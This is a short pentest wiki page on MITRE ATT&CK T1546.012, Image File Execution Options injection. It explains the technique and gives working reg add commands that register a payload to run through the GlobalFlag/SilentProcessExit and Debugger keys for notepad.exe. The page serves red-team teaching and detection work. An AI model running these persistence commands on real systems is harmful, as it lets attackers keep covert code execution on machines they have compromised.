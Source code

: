 ```yaml
---
description: >-
  MITRE ATT&CK™ Event Triggered Execution: Image File Execution Options
  Injection - Technique T1546.012
---
```


# Image File Execution Options

## Theory

Image File Execution Options is a Windows registry key which enables developers to attach a debugger to an application and to enable “**GlobalFlag**” for application debugging. This behavior of Windows opens the door for persistence since an arbitrary executable can be used as a debugger of a specific process or as a “**MonitorProcess**“. \
In both scenarios code execution will achieved and the trigger will be either the creation of a process or the exit of an application. However it should be noted that the implementation of this technique requires Administrator level privileges as the registry location which the keys needs to be added is under **HKLM**

## Practice

{% hint style="danger" %}
By editing Image File Execution Options, the original exe will not start
{% endhint %}

{% tabs %}
{% tab title="GlobalFlag" %}
With the GlobalFlag persistence technique, payload is triggered when the target application is closed.

```powershell
#Enables the silent exit monitoring for the notepad process.
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v GlobalFlag /t REG_DWORD /d 512

#Enables the Windows Error Reporting process (WerFault.exe) which will be the parent process of the “MonitorProcess”
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v ReportingMode /t REG_DWORD /d 1

#Set up the arbitrary payload
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\SilentProcessExit\notepad.exe" /v MonitorProcess /d "C:\temp\payload.exe"
```
{% endtab %}

{% tab title="Debugger" %}
Using the debugger technique, we can define a binary that will be attached to the targeted process

```powershell
REG ADD "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad.exe" /v Debugger /d "C:\tmp\payload.exe"
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://pentestlab.blog/2020/01/13/persistence-image-file-execution-options-injection/" %}

{% embed url="https://attack.mitre.org/techniques/T1546/012/" %}
